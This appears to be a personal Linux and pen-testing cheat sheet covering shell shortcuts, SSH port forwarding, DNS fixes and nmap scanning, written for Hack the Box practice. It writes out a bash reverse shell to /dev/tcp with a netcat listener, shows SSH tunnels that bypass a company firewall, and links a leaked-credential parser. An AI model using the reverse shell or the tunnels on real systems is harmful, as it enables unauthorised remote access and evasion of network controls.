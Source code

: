 
### Common commands
```sh
$ hostname                   # show or set system's hostname
$  history | grep netstat    # search the command  history
$ cd -                       # navigate to previous directory
$ Ctrl + A                   # navigate to start of command
$ Ctrl + E                   # navigate to the end of command
$_ shell variable            # in bash, is the last argument given to the previous command
!$ shell variable            # in bash, gives the last argument of previous command in the shell history
mkdir -p a/b/c/d/e && cd $_  # create folder and switch to it
$! shell variable            # the PID of the last executed command
du -ch                       # estimate file space usage
su -                         # switch to root user
tar -xvf file.tar            # extract file
```



### SSH Port Forwarding

**Local port forwarding:** lets you connect from your local computer to another server.
* **Example1**: you need to connect from your company computer to your home computer,
but the RDP port (3389) is blocked by company firewall 
on the WORK:   ```ssh -L 8181:<home_ip>:3389  <home_ssh_user>@<home_ip>```
then - access RDP connection with localhost:8181 (from WORK)


**Reverse Port Forwarding**: Remote port forwarding lets you connect from the remote SSH server to another server.
you need to connect from your home computer to your  company computer,
on the WORK:   ```ssh -R 8181:localhost:3389  <home_ssh_user>@<home_ip>```
then - access RDP connection with localhost:8181  (from HOME)

Good explanation (from https://unix.stackexchange.com/questions/46235/how-does-reverse-ssh-tunneling-work)
* **local: -L Specifies that the given port on the local (client) host is to be forwarded to the given host and port on the remote side.**
```ssh -L sourcePort:forwardToHost:onPort connectToHost``` means: connect with ssh to ```connectToHost```, and forward all connection attempts to the **local** ```sourcePort``` to port ```onPort``` on the machine called ```forwardToHost```, which can be reached from the ```connectToHost``` machine.


* **remote: -R Specifies that the given port on the remote (server) host is to be forwarded to the given host and port on the local side.**
```ssh -R sourcePort:forwardToHost:onPort connectToHost``` means: connect with ssh to ```connectToHost```, and forward all connection attempts to the **remote** ```sourcePort``` to port ```onPort``` on the machine called ```forwardToHost```, which can be reached from your local machine.


**Dynamic Port forwarding**: Dynamic port forwarding turns your SSH client into a SOCKS proxy server.
* **Example1**: on the work machine there is a filter on the port 80 
```ssh -D 8181 <home_ssh_user>@<home_ip>```
the will need to change Chrome setings to point to the created proxy



### Network commands
```sh
$ ifconfig                   # configure/view network interfaces
$ ping -c 5 www.google.com   # ping 5 times
$ arp                        # manipulate the system ARP cache
$ iptables -L -vn            # list iptables rules
```


### Magic bytes
* https://blog.netspi.com/magic-bytes-identifying-common-file-formats-at-a-glance/
* Example: 
 ```$ echo "GIF8;" > testfile.file```
 ```$ file testfile.file```   # outputs  **testfile.file: GIF image data**



### Hack the box
https://0x00sec.org/t/my-hackthebox-ctf-methodology-from-fresh-box-to-root/13980

**Bach reverse shell**
* https://github.com/fijimunkii/bash-dev-tcp/blob/master/reverse-shell
Example: ```bash -i >& /dev/tcp/10.10.14.150/9001 0>&1```   plus   ```nc -lvnp 9001``` to listen


### DNS configuration issues

**ping: www.google.com: Temporary failure in name resolution**

* https://stackoverflow.com/questions/53687051/ping-google-com-temporary-failure-in-name-resolution
* https://www.tecmint.com/set-permanent-dns-nameservers-in-ubuntu-debian/
 
    On modern Linux systems that use systemd (system and service manager), the DNS or name resolution services are provided to local applications via the systemd-resolved service. 
    It uses the systemd DNS stub file (**/run/systemd/resolve/stub-resolv.conf**) in the default mode of operation.
    The DNS stub file contains the local stub **127.0.0.53** as the only DNS server.
    
    ```ls -l /etc/resolv.conf``` - you will see that this file is a symlink to the /run/systemd/resolve/stub-resolv.conf file.
    Unfortunately, because the /etc/resolv.conf is indirectly managed by the systemd-resolved service, any changes made manually by a user can not be saved permanently or only last for a while.
    
    Quick fix - just to modify the **/etc/resolv.conf** to 8.8.8.8



## Open VPN server
Install and configure 
* https://interface31.ru/tech_it/2019/10/nastroyka-openvpn-servera-dlya-dostupa-v-internet.html  (russian)

**restart**
```
sudo systemctl stop openvpn@server
sudo systemctl enable openvpn@server.service
sudo systemctl start openvpn@server
```


## Start a python2 web server

 ``` python -m SimpleHTTPServer 80```
 
 
 ## Pen Testing
 * **Target validation** - WHOIS, nslookup, dnsrecon
 * **Finding subdomains** - Google Fu, dig, Nmap, Sublist3r, Bluto, crt.sh, etc
 * **Fingerprinting** - nmap, Wappalyzer, BuiltWith, Netcat
 * **Data Breaches** - HaveIBeenPwned and similar
 * **Also** - Nikto, Nessus, Burp Suite, dirbuster, searchsploit, metasploit, 
 * parsing leaked credentials - https://github.com/hmaverickadams/breach-parse

### nmap (press UP key to see the status)
* **TCP**  - SYN - SYN ACK - ACK 
* **nmap** -  SYN - SYN ACK - RST
1. **nmap "ping scan"** - ``` nmap -sn 10.0.2.0/24```  show all the nodes in a network
2. ```nmap -T4 <host>``` - top 1000 widely used ports scanned 
3. ```nmap -T4 -p- <host>``` - all ports scanned 
4. ```nmap -sC -sV -oA output <host>``` - this seems faster 
5. ```nmap -T4 -p22,80,443 <host>``` - selective ports scanned (can add here ```-A``` for more info)
6. ```/usr/share/nmap/scripts``` - nmap usefull scripts (example  ```nmap -p443 --script=ssl-enum-ciphers utm.md```)


